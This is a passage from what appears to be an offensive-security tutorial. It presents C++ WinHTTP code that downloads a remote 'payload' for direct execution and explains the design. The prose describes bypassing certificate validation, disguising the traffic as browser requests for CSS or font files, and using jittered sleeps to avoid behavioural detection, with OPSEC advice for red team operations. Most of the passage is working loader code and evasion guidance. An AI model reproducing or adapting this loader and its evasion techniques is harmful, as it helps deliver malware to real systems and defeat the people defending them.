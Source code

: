 ```cpp
        if (!WinHttpSendRequest(hRequest, WINHTTP_NO_ADDITIONAL_HEADERS, 0,
            WINHTTP_NO_REQUEST_DATA, 0, 0, 0) || !WinHttpReceiveResponse(hRequest, NULL)) {
            WinHttpCloseHandle(hRequest);
            WinHttpCloseHandle(hConnect);
            WinHttpCloseHandle(hSession);
            return false;
        }
        
        // Read response
        std::vector<BYTE> downloadData;
        DWORD dwSize = 0;
        do {
            DWORD dwDownloaded = 0;
            if (WinHttpQueryDataAvailable(hRequest, &dwSize) && dwSize > 0) {
                std::vector<BYTE> buffer(dwSize);
                if (WinHttpReadData(hRequest, buffer.data(), dwSize, &dwDownloaded)) {
                    downloadData.insert(downloadData.end(), buffer.begin(), buffer.begin() + dwDownloaded);
                }
            }
        } while (dwSize > 0);
        
        WinHttpCloseHandle(hRequest);
        WinHttpCloseHandle(hConnect);
        WinHttpCloseHandle(hSession);
        
        if (!downloadData.empty()) {
            LOG("Downloaded " + std::to_string(downloadData.size()) + " bytes");
            payload = downloadData; // Payload is downloaded directly over HTTPS; no additional XOR decryption is applied here.
            LOG("Payload ready (no decryption needed)");
            return true;
        }
        
        return false;
    }
```

This shows the complete HTTP download flow. The WinHTTP session setup creates session, connection, and request handles with proper error checking and cleanup at each step. The security flags are configured to ignore various certificate validation issues, such as invalid common names or expired dates. While this simplifies the download process and allows for the use of self-signed or expired certificates in controlled testing environments, it is a significant OPSEC drawback in real-world red team operations. Advanced network security tools and SOCs can easily flag the use of these bypass flags as suspicious, as legitimate software rarely ignores such critical security checks. For true operational stealth, all certificates should be valid and properly configured.

The Accept headers make the request look like a browser requesting a CSS or font file rather than suspicious automated traffic. There's a random jittered sleep before sending the request to avoid timing signatures that behavioral analysis tools might detect.

The response reading loop uses WinHttpQueryDataAvailable and WinHttpReadData to read the response in chunks, accumulating all the data. Once we have the complete payload, it's ready to execute directly without additional decryption since it was already protected by the HTTPS transport.
